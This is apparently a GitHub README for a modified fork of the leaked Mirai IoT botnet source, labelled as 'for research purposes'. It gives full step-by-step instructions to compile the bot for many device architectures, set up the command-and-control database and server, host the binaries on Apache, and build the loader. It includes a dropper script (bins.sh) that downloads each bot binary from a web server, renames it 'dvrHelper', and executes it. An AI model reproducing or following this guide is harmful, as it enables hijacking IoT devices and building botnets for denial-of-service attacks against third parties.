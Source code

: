# Mirai BotNet to Tashiro
Leaked Linux.Mirai Source Code for Research/IoT Development Purposes

Uploaded for research purposes and so we can develop IoT and such.

Modified from https://github.com/jgamblin/Mirai-Source-Code.

## Requirements
* To be able to use vi.
* Do not run in WSL.
* It is recommended that Linux be used as the operating system.

## Credits
[Anna-senpai](https://hackforums.net/showthread.php?tid=5420472)

## Disclaimer
This repository is for academic purposes, the use of this software is your
responsibility.

## Warning
The [zip file](https://www.virustotal.com/en/file/f10667215040e87dae62dd48a5405b3b1b0fe7dbbfbf790d5300f3cd54893333/analysis/1477822491/) for this repo is being identified by some AV programs as malware.  Please take caution. 

## Install

※If you are not logged in as root, be sure to add sudo and follow the installation instructions below.
※If you are unable to install the software, please refer to the following URL for installation.

https://github.com/ruCyberPoison/-Mirai-Iot-BotNet/blob/master/TUTORIAL.txt

```
# apt-get install git gcc golang electric-fence mysql-server mysql-client
# git clone https://github.com/ware255/Mirai-Source-Code-plus.git
# cd Mirai-Source-Code-plus/scripts
# service mysql start
```
Add users to mysql.
```
# mysql -uroot -proot mirai
> INSERT INTO users VALUES (NULL, 'anna-senpai', 'myawesomepassword', 0, 0, 0, 0, -1, 1, 30, '');
> exit
# service mysql restart
```
Cross Compile
```
# chmod +x cross-compile.sh
# sudo ./cross-compile.sh
```
Enter "n" here.
```
Install mysql-server and mysql-client (y/n)? n
```
Edit .bashrc
```
# vi ~/.bashrc
```
Add the following string to the last line
```
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv5l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

export GOPATH=$HOME/go
```
After adding and saving, enter the following command
```
# mkdir ~/go
# source ~/.bashrc
```
Build bot and CNC
Get golang requiremnts
```
# go get github.com/go-sql-driver/mysql
# go get github.com/mattn/go-shellwords
```
In mirai folder, run build.sh script
```
# cd ../mirai
# chmod +x build.sh
# ./build.sh debug telnet
```
Install Apache2 server.
```
# cd ../mirai/debug
# sudo apt-get install apache2 -y
# service apache2 start
# cp mirai.* /var/www/html
# cd /var/www/html
# rm -fr /var/www/html/index.html
```
Check by entering localhost in a browser such as Fireforx.

When you have finished checking, copy and paste the following code and save it as bins.sh.
```
#!/bin/sh

# Edit
WEBSERVER="IP OR HOSTNAME:80"
# Stop editing now 

BINARIES="mirai.arm mirai.m68k miraint.x86 miraint.spc miraint.sh4 miraint.ppc miraint.mpsl miraint.mips miraint.arm7 miraint.arm5n miraint.arm"

for Binary in $BINARIES; do
    wget http://$WEBSERVER/$Binary -O dvrHelper
    chmod 777 dvrHelper
    ./dvrHelper
done

rm -f "
```
Restart Apache2 after saving bins.sh
```
# service apache2 restart
```
Build loader
```
# cd ../loader
# chmod +x build.sh
# ./build.sh
```
This completes the installation. :)
